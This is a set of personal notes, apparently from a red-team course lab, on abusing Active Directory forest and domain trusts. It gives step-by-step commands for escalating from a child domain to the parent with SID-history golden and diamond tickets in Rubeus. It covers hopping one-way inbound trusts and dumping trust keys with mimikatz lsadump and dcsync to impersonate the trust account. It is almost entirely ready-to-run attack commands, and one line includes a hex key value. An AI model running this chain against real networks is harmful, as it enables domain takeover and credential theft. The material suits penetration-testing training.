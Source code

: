 # Forest and Domain Trusts Notes

child domains are added to forests with a transitive, two-way trusts with its parent

list trust
```
powershell Get_DomainTrust
```

things to look at:
- Sourcename - current domain
- Targetname - foreign domain
- TrustDirection - trust direction applied
- TrustAttributes - can tell us if both domains are in a forest. WITHIN_FOREST can indicate a child/parent relationship

DA privs in the child means DA privs in the parent using a TGT with the SID History attribute

**Golden Ticket with SID History**

need target groups SID
```
powershell Get-DomainGroup -Identity "Domain Admins" -Domain <parent domain> -Properties ObjectSid
```

create golden ticket
```
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /aes256:<krbtgt hash> /user:Administrator /domain:<child domain> /sid:<child domains sid> /sids:<target groups SID> /nowrap
```

import
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:Administrator /password:FakePass /ticket:<base64>
steal_token <PID>
```

now we can interact with the parent domains stuff
```
ls \\<parent domains dc>\c$
```

**Diamond Ticket with SID History**

the diamond flag let's use specify additional sids to add

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /groups:519 /sids:<target groups sid> /krbkey:51d7f328ade26e9f785fd7eee191265ebc87c01a4790a7f38fb52e06563d4e7e /nowrap
```

### One-Way Inbound

if you have an Inbound trust in the TrustDirection from below
```
powershell Get-DomainTrust
```

it means that principals in our domain can be granted access to resources in the foreign domain
enum across
```
powershell Get-DomainComputer -Domain dev-studio.com -Properties DnsHostName
```

enum any groups with users outside of our domain and return the members, use second command to convert the SID
```
powershell Get-DomainForeignGroupMember -Domain <other domain with inbound trust with>
powershell ConvertFrom-SID <SID>
```

in this example we hop the trust we need to impersonate one of members part of the built-in administrators group 
setps:
1. find the users of this group
2. obtain a TGT for the target user
3. use TGT to req a referral ticket
4. use this inter-realm ticket to req TGS's in the target domain
```
powershell Get-DomainGroupMember -Identity "Studio Admins" | select MemberName
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:<user> /domain:<current domain> /aes256:<user hash> /nowrap
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /service:krbtgt/<target domain> /domain:<current domain> /dc:<current domain dc> /ticket:<base64> /nowrap
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /service:cifs/<target domain dc> /domain:<target domain> /dc:<target dc> /ticket:<base64> /nowrap
```

### One-Way Outbound

this means the other domain has trust in the current domain, but not the other way around
```
powershell Get-DomainTrust -Domain <domain>
```

can partially exploit this and obtain "domain user" access to this other domain by leveraging a shared credential for the trust. We are looking for a Trusted Domain Object (TDO). 
enum for TDO's
```
execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(objectCategory=trustedDomain)" --domain cyberbotic.io --attributes distinguishedName,name,flatName,trustDirection
```

two ways to abuse, move laterally ot the DC and dump from memory
```
mimikatz lsadump::trust /patch
```

or dcsync with the TDOs GUID
```
powershell Get-DomainObject -Identity "CN=msp.org,CN=System,DC=cyberbotic,DC=io" | select objectGuid
mimikatz @lsadump::dcsync /domain:cyberbotic.io /guid:{<guid from above>}
```

there is also a trust account that exists with the name of the trusting domain, we'll see this in this enumeration
```
execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(objectCategory=user)"
```

this means the target domain will have a trust account named our domain$, this is the account we must impersonate
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:<domain>$ /domain:<target domain> /rc4:<rc4 of password from dcsync> /nowrap

```

